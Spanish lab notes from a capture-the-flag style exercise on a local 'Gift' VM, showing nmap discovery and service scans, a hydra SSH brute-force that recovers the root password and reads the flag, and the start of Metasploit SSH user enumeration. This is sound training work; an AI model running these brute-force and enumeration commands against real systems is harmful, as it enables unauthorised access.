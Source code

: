 Parte de [[Maquinas]] y [[Enumeracion de Servicios]]

>1. Barrido de exploracion desde 192.168.56.100 a la 192.168.56.254

``` bash
sudo nmap -sn 192.168.56.100/24
```

Otra opcion:

``` bash
sudo nmap -sn 192.168.56.100-254
```

Salida (de la primera opcion):

``` java
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-14 20:41 CET
Nmap scan report for 192.168.56.1
Host is up (0.00020s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.10
Host is up (0.0010s latency).
MAC Address: 08:00:27:02:65:23 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.102
Host is up (0.00077s latency).
MAC Address: 08:00:27:7B:8B:9E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.103
Host is up (0.00072s latency).
MAC Address: 08:00:27:73:79:CB (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.100
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.11 seconds
```

La IP de la maquina Gift es 192.168.56.103 (ya que 102 es metasploitable)

Otras opciones serian:

``` bash
sudo arp-scan -I eth1 192.168.56.100-192.168.56.254
sudo netdiscover -i eht1 -r 192.168.56.0/24
```

Netdiscover tambien puede trabajar en modo pasivo

> 2. Escaneo de puertos:

``` bash
sudo nmap -n -Pn -sV -O -p- 192.168.56.103 -oN nmap_output.txt
```

Salida:

``` java
Nmap scan report for 192.168.56.103
Host is up (0.0015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
MAC Address: 08:00:27:73:79:CB (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.22 seconds
```

---

## Prueba propia para resolución

Ataque de fuerza bruta a ssh

Comando:

``` bash
hydra -l root -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.56.103:22
```

Salida:

``` java
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-16 17:48:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.103:22/
[22][ssh] host: 192.168.56.103   login: root   password: simple
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-16 17:48:29
```

La contraseña es "simple" con lo que podemos conectarnos a root por ssh:

``` bash
ssh root@192.168.56.103

The authenticity of host '192.168.56.103 (192.168.56.103)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.103' (ED25519) to the list of known hosts.
root@192.168.56.103's password: 

IM AN SSH SERVER

gift:~# ls
root.txt  user.txt

gift:~# cat root.txt
HMVtyr543FG
```

---

Siguiendo la parte de clase, exploracion completa de gift:

``` bash
sudo nmap -n -Pn -sS -sV -sC -O -p- 192.168.56.103 -oA gift_fullscan
```

Salida:

``` java
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-16 18:45 CET
Nmap scan report for 192.168.56.103
Host is up (0.00082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:73:79:CB (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.33 seconds
```

La maquina tiene un servicio SSH en el puerto 22 y un puerto HTTP en el puerto 80 hosteando la siguiente informacion:

``` bash
curl http://192.168.56.103:80

Dont Overthink. Really, Its simple.
	<!-- Trust me -->

```

Procedemos con la enumeracion del servicio SSH:

Con nmap:

```bash
sudo nmap -n -Pn --script ssh-auth-methods.nse -p 22 192.168.56.103
```

Salida:

``` java
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-16 18:55 CET
Nmap scan report for 192.168.56.103
Host is up (0.00048s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|     password
|_    keyboard-interactive
MAC Address: 08:00:27:73:79:CB (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

Se permite salida por contraseña y clave

Tambien podemos utilizar enumeracion de usuarios (inherente de OpenSSH <7.7) mediante un modulo auxiliar de metasploit:

Con el comando help de msf podemos ver los comandos que tenemos como opcion en cada situacion en la que estemos.

Buscamos el modulo de enumeracion:

```bash
search scanner ssh
```

Y usamos enumusers:

``` bash
msf6 > use auxiliary/scanner/ssh/ssh_enumusers 
[*] Using action Malformed Packet - view all 2 actions with the show actions command
msf6 auxiliary(scanner/ssh/ssh_enumusers) > show options

Module options (auxiliary/scanner/ssh/ssh_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CHECK_FALSE   true             no        Check for false positives (random username)
   DB_ALL_USERS  false            no        Add all users in the current database to the list
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][.
                                            ..]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/
                                            using-metasploit/basics/using-metasploit.html
   RPORT         22               yes       The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)
   THRESHOLD     10               yes       Amount of seconds needed before a user is considered foun
                                            d (timing attack only)
   USERNAME                       no        Single username to test (username spray)
   USER_FILE                      no        File containing usernames, one per line


Auxiliary action:

   Name              Description
   ----              -----------
   Malformed Packet  Use a malformed packet



View the full module info with the info, or info -d command.
```

Configuramos RHOSTS a 192.168.56.103:

``` bash
set RHOSTS 192.168.56.103
```


